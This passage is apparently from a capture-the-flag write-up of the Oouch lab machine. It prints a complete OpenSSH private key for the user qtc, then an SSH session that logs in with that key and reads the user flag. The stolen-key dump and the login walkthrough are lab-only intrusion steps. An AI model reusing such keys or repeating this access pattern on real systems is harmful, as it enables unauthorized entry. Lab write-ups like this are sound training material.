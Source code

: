 So here is the private key of qtc:

```
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----

```

### SSH Access with qtc

```
$ chmod 600 id_rsa
$ ssh -i id_rsa qtc@oouch.htb
Linux oouch 4.19.0-8-amd64 #1 SMP Debian 4.19.98-1 (2020-01-26) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Feb 25 12:45:55 2020 from 10.10.14.3
qtc@oouch:~$ cat user.txt 
2dea47702ee688171c4918703f46cb3c
```
